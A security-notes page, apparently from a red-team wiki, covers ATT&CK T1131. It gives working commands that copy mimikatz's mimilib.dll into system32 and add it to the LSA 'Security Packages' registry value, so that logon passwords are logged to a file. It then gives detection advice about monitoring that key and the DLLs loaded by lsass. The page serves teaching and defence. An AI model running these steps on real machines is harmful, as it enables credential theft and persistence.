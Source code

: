 ```yaml
---
description: Persistence
---
```


# T1131: Authentication Packages

This technique abuses Windows Authentication Packages and injects a DLL into the LSA process. For this, mimikatz library mimilib.dll will be used. It will serve as a keylogger and save logon passwords next time someone will attempt a logon to the compromised host.

## Execution

Copying the evil DLL:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Check which LSA Security Packages are already on the list:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Add mimilb to the Security Support Providers:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
Value Security Packages exists, overwrite(Yes/No)? y
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The below shows the screens of the Security Packages registry value with the **mimilib** injected and the kiwissp.log file with a redacted password that had been logged during the user logon:

![](../../.gitbook/assets/lsa-security-packages.png)

## Observations

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` key for changes. Newly added packages should be inspected:

![](../../.gitbook/assets/lsa-commandline.png)

![](../../.gitbook/assets/lsa-security-packages.png)

As expected, mimilib.dll can be observed in the list of DLLs loaded by the lsass.exe process, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor for any new DLLs being loaded:

![](../../.gitbook/assets/lsa-loaded-dll.png)

## References

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" %}

{% embed url="https://adsecurity.org/?p=1760" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" %}

